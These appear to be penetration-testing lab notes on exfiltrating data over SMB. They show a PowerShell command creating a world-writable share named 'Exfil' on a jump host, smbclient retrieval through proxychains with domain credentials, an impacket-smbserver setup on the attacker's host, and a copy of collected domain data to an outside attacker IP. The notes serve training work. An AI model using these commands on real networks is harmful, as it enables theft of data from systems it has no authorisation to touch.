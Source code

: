 # SMB

## PowerShell Create SMB Share - Jump Host

```powershell
PS C:\Users\Public> New-SmbShare -Name "Exfil" -Path C:\Users\Public\Documents -FullAccess "Everyone"

Name  ScopeName Path                      Description
----  --------- ----                      -----------
Exfil *         C:\Users\Public\Documents            


PS C:\Users\Public> Get-SmbShare

Name   ScopeName Path                      Description  
----   --------- ----                      -----------  
ADMIN$ *         C:\Windows                Remote Admin 
C$     *         C:\                       Default share
Exfil  *         C:\Users\Public\Documents              
IPC$   *                                   Remote IPC   


```

### Getting Data&#x20;

NOTE: Make sure to include the Domain name in the username: "DOMAIN/Username"

```shell-session
└─$ proxychains smbclient //172.16.224.11/Exfil -U "MEDTECH/joe"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Password for [MEDTECH\joe]:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.224.11:445  ...  OK
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Dec 13 23:49:18 2023
  ..                                DHS        0  Wed Dec 13 23:49:17 2023
  20231213201811_MEDTECH.zip          A    23757  Wed Dec 13 23:18:58 2023
  ZGViMzVhYzItYmNiMy00MmY2LWEzYjItZmE0NGEyNDBlMWMz.bin      A    44405  Wed Dec 13 23:18:58 2023

                7699967 blocks of size 4096. 4769448 blocks available

```

## Impacket-smbserver

We can start a smb server with impacket-smbserver and transfer files to and from our kali host

```
python smbserver.py SHARE_NAME PATH_TO_SHARE -smb2support
```



## Transfer Data

```powerquery
PS> copy 20240207102333_SUPPORT.zip \\10.10.16.3\test
```
